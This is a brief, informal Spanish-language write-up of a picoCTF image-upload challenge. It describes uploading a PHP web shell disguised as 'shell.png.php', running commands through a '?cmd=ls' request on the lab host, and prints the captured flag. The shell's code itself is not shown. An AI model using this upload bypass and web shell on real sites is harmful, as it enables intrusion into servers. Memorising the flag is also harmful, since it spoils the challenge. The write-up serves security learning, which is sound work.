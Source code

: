 #### Description

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

Solucion:
````
crear un archivo con tal nombre y con tal codigo
`````

le ponemos el nombre 
![[Pasted image 20250402125254.png]]


http://atlas.picoctf.net:54197/uploads/shell.png.php?cmd=ls

shell.png.php

luego en la pagina ocupas este codigo y de hay la bandera.
````
ese GNTDO..... ES DE -> http://atlas.picoctf.net:57932/uploads/shell.png.php?cmd=ls ..


----http://atlas.picoctf.net:57932/GNTDOMBWGIZDE.txt-----

picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
```